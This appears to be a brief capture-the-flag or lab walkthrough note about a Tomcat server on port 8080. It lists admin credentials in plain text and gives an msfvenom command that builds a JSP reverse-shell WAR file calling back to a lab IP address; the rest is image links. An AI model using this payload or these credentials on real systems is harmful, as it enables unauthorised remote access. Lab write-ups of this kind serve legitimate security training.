 # Tomcat on 8080
Creds: admin:3@g01PdhB! 
![[Pasted image 20211110070259.png]]

![[Pasted image 20211110070410.png]]

## Creating a reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.21 LPORT=9001 -f war > dix.war
```
![[Pasted image 20211110071047.png]]

![[Pasted image 20211110071245.png]]

